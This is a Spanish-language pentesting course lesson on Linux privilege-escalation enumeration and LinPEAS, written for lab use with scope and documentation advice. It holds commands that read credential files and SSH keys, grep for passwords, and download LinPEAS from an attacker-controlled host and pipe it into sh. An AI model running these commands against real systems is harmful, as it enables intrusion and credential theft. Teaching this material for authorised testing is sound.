



# 04 — Enumeración y LinPEAS

**Curso:** C|PTA · Pentesting y Técnicas de Ataque  
**Tiempo de lectura:** 35–45 min  
**Laboratorio asociado:** enumeración manual y automatizada en una VM Linux

---

## 4.1 Por qué enumerar

La enumeración es la fase que convierte una shell en un **mapa de oportunidades**. No se trata de ejecutar todas las herramientas, sino de responder preguntas concretas:



| Pregunta | Comandos clave |
|---|---|
| Usuarios y grupos | `id`, `cat /etc/passwd`, `groups` |
| Sistema | `uname -a`, `cat /etc/os-release` |
| Privilegios | `sudo -l`, `find / -perm -4000` |
| Procesos | `ps aux`, `ps auxf` |
| Servicios | `systemctl`, `ss -tulpn` |
| Tareas | `crontab -l`, `/etc/cron.*` |
| Archivos | `find`, `ls -la`, `grep` |
| Red | `ip a`, `ip route`, `ss` |

---

## 4.2 Enumeración manual: checklist

### Sistema y kernel

```bash
uname -a
cat /etc/os-release
cat /proc/version
hostname
```

**Qué buscar:** kernel antiguo, distribución sin soporte, arquitectura, versiones vulnerables.

### Usuarios y grupos

```bash
id
whoami
cat /etc/passwd
cat /etc/group
sudo -l
```

**Qué buscar:** cuentas con shell, grupos privilegiados, reglas sudo, cuentas de servicio.

### Procesos y servicios

```bash
ps aux
ps auxf
systemctl list-units --type=service --state=running
ss -tulpn
```

**Qué buscar:** procesos root, servicios internos, puertos en `127.0.0.1`, tareas programadas.

### Archivos y permisos

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
find / -writable -type f 2>/dev/null | head
ls -la /home
ls -la /opt
ls -la /var/www
```

**Qué buscar:** SUID/SGID, archivos escribibles, backups, configuraciones, claves.

### Credenciales

```bash
cat ~/.bash_history
cat ~/.ssh/id_rsa
grep -Ri "password" /var/www 2>/dev/null
grep -Ri "password" /opt 2>/dev/null
find / -name "*.conf" -o -name "*.env" 2>/dev/null | head
```

**Qué buscar:** contraseñas en texto plano, claves SSH, tokens, archivos `.env`.

### Red

```bash
ip a
ip route
cat /etc/hosts
ss -tulpn
```

**Qué buscar:** interfaces internas, rutas a otras redes, servicios locales, hosts conocidos.

---

## 4.3 Enumeración automatizada con LinPEAS

LinPEAS (Linux Privilege Escalation Awesome Script) automatiza el triaje de posibles vectores de escalada. No reemplaza el análisis manual: **prioriza** dónde mirar.


*LinPEAS. Fuente: PEASS-ng.*

### Ejecución

```bash
# Descargar en el objetivo (si hay salida a Internet)
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh

# O desde un servidor HTTP local
# En el atacante:
python3 -m http.server 8000
# En el objetivo:
curl -sL http://10.10.14.5:8000/linpeas.sh | sh
```

> [!WARNING]
> Ejecutar `curl | sh` descarga y ejecuta código sin verificar. En un laboratorio es aceptable; en producción, verifica el hash y la fuente.

### Cómo leer la salida



*Opciones de LinPEAS. Fuente: PEASS-ng.*

| Color | Significado |
|---|---|
| **Rojo/amarillo** | Alta probabilidad de vector |
| **Rojo** | Configuración anómala o potencial |
| **Azul/verde** | Información del entorno |
| **Sin color** | Datos de contexto |

> [!IMPORTANT]
> No persigas colores ciegamente. Cada hallazgo debe validarse con un comando reproducible y entenderse antes de explotarlo.

### Secciones útiles

| Sección | Qué muestra |
|---|---|
| System Information | Kernel, distro, arquitectura |
| Users | Usuarios, grupos, sudo |
| Processes | Procesos y servicios |
| Cron | Tareas programadas |
| SUID/SGID | Binarios especiales |
| Capabilities | Capabilities |
| Files | Archivos interesantes |
| Network | Interfaces y puertos |
| Credentials | Historial, claves, configs |

---

## 4.4 Otras herramientas

| Herramienta | Uso |
|---|---|
| **LinEnum** | Enumeración clásica |
| **linux-smart-enumeration** | Enumeración progresiva |
| **pspy** | Ver procesos sin root |
| **GTFOBins** | Escapes de binarios |
| **searchsploit** | Exploits públicos |
| **unix-privesc-check** | Checks automáticos |

### pspy

`pspy` permite ver procesos que se ejecutan sin necesidad de root. Es útil para detectar cron jobs y scripts que se ejecutan como root.

```bash
./pspy64 -pf -i 1000
```

> [!TIP]
> Si ves un script ejecutado por root desde un directorio escribible, tienes un vector potencial. Confirma permisos y contenido antes de actuar.

---

## 4.5 Triage: de la salida al vector



### Preguntas de validación

1. ¿Qué comando exacto reproduce el hallazgo?
2. ¿Qué privilegio obtengo?
3. ¿Puedo causar daño?
4. ¿Es reversible?
5. ¿Está dentro del alcance?
6. ¿Cómo lo documentaría?

---

## 4.6 Evidencia

| Elemento | Ejemplo |
|---|---|
| Comando | `sudo -l` |
| Salida | `(root) NOPASSWD: /usr/bin/find` |
| Interpretación | Permite ejecutar `find` como root |
| Impacto | Escalada a root mediante `-exec` |
| Evidencia | Captura + transcripción |
| Recomendación | Eliminar regla o restringir binario |

> [!NOTE]
> Guarda la salida completa, no solo la línea que te interesa. El contexto permite que otro analista valide el hallazgo.

---

## 4.7 Errores comunes

| Error | Consecuencia |
|---|---|
| Ejecutar LinPEAS y no leerlo | Pérdida de tiempo |
| Confiar en un color sin validar | Falso positivo |
| Ignorar procesos internos | Vector perdido |
| No revisar historial | Credenciales olvidadas |
| Enumerar fuera de alcance | Riesgo legal |
| No documentar | Hallazgo no reproducible |

---

## 4.8 Autoevaluación

1. ¿Qué preguntas responde la enumeración?
2. ¿Qué comandos usarías para ver usuarios y grupos?
3. ¿Qué busca LinPEAS?
4. ¿Qué significa un hallazgo en rojo?
5. ¿Por qué no basta con ejecutar LinPEAS?
6. ¿Qué es `pspy` y para qué sirve?
7. ¿Qué evidencia guardarías de un SUID?

---

**Anterior:** [03 — Usuarios y permisos](03-usuarios-permisos.md) · **Siguiente:** [05 — Vectores de escalada](05-escalada-linux.md)
